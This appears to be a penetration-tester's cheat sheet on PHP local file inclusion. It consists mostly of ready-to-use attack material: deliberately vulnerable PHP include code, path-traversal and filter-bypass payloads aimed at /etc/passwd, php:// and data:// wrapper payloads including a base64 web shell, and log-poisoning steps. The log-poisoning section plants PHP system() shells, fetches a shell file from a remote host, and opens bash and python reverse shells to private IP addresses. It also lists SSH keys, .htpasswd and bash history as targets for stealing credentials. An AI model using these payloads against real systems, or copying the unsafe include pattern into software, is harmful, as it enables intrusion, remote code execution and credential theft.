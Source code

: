 ## Local file inclusion

### PHP
##### Vulnerable code:
###### Standard vulnerable to everything:
```php
<?php                                                                                                                                                                                                                                          
include 'templates/header.php';                                                                                                                                                                                                                
?>                                                                                                                                                                                                                                             
<div class="container mt-4">                                                                                                                                                                                                                   
<?php                                                                                                                                                                                                                                          
ini_set('display_errors', true);       # UNSAFE        
ini_set('safe_mode', false);           # UNSAFE (removed from PHP 5.3.0 onwards). If enabled, won't allow reads to anyhting not user-owned, DB creds should be in the file if it accesses any DB. Other functions can be disabled (readfile, basedir)
# http://php.adamharvey.name/manual/en/ini.sect.safe-mode.php

ini_set('allow_url_fopen', false);     # Disallows PHP opening URL files                
ini_set('allow_url_include', false);   # Allows "include" statements to the PHP code. note: Can only be enabled if "allow_url_fopen" is true. https://www.php.net/manual/en/filesystem.configuration.php
ini_set('allow_url_include', 'Off');   # ?

if(isset($_GET['page'])){
        include($_GET['page']); # VULNERABLE (any payload injected will work)
}else{
        include 'menu.php';
}
?>
</div>
<?php
include 'templates/footer.php';
?>
```
###### PHP with filter (/var/www/html):
```php
<?php
include 'templates/header.php';
?>
<div class="container mt-4">
<?php
ini_set('display_errors', true);       # UNSAFE        
ini_set('safe_mode', false);           # UNSAFE (removed from PHP 5.3.0 onwards). If enabled, won't allow reads to anyhting not user-owned, DB creds should be in the file if it accesses any DB. Other functions can be disabled (readfile, basedir)
# http://php.adamharvey.name/manual/en/ini.sect.safe-mode.php

ini_set('allow_url_fopen', false);     # Disallows PHP opening URL files                
ini_set('allow_url_include', false);   # Allows "include" statements to the PHP code. note: Can only be enabled if "allow_url_fopen" is true. https://www.php.net/manual/en/filesystem.configuration.php
ini_set('allow_url_include', 'Off');   # ?

function containsStr($str, $subStr){
    return strpos($str, $subStr) !== false;
}

if(isset($_GET['page'])){
    if(!containsStr($_GET['page'], '../..') && containsStr($_GET['page'], '/var/www/html')){
        include $_GET['page'];
    }else{
        echo 'You are not allowed to go outside /var/www/html/ directory!';
    }
}else{
    include 'menu.php';
}
?>
</div>
<?php
include 'templates/footer.php';
	?>

```

#### Achieving LFI:
##### General payloads
```
- Standard:
/etc/passwd
../../../../../../../etc/passwd

- URL encodings
%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd

- "Filter and remove" bypass
....//....//....//....//....//....//....//....//etc/passwd

- Original path kept
/var/www/../../etc/passwd
/var/www/html/../../../etc/passwd
```

##### PHP wrappers
PHP wrappers have the same general functionality as normal LFI, but they can bypass some filters.
```
php://filter/string.rot13/resource=../../../../../etc/passwd
php://filter/convert.base64-encode/resource=../../../../../../../etc/passwd                              // Use to read PHP files (resource=index.php)
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt         // `cmd` argument inclusion, prints "Shell done!" if it works
```


### Log poisoning (RCE)
##### Required
Access to files
A log file (Usually `/var/log/apache2/access.log`), see #

#### Linux
##### Important
First, run 
```
../../../proc/self/environ
```
to get general information.
If RCE doesn't work, try RFI (other vhosts on machine)
If there is HTTP-BASIC-AUTH involved, check the `.htpasswd` file, it often contains credentials. (usually `/etc/apache2/.htpasswd`)
##### Target files: 
```
RCE:
/var/log/apache2/access.log
Payload:
	bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.10.10%2F4444%200%3E%261%22 

Other potentially interesting files:
/proc/self/environ
/etc/passwd -->
	/home/USER_FOUND/.ssh/id_rsa
	/home/USER_FOUND/.bash_history
	/home/USER_FOUND/.bash_profile

```

#### Windows
##### Target files: 
```
C:\xampp\apache\logs\access.log
Payload:
	https://www.revshells.com/ (Powershell base64 - URL encoded)
```

#### General
Payload: 
```
<?php system($_GET['test']);?>

// Get PHP shell (named shell.php) from python3 server (saves as shell.php)
<?php file_put_contents('shell.php', file_get_contents('http://IP:PORT/shell.php'))?>
```

First, you need to get the payload in the log system:

```
nc IP PORT
GET /'<?php system($_GET['rce']); ?>'
test=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.241%2F4444%200%3E%261%22 
```

If this does not work, set your User-Agent as the payload.

To use the payload, send a request to the log file with the command in your payload:
```
// Template
curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=PAYLOAD

// Examples
curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=sh -i >& /dev/tcp/10.8.1.167/4444 0>&1
curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=export RHOST="10.8.1.167";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

### Note
Importanot note:
If you can read `/etc/passwd`, go through every user's home directory for the `.bashrc`


##### Mongo
Target file: `/var/www/dev/index.js`
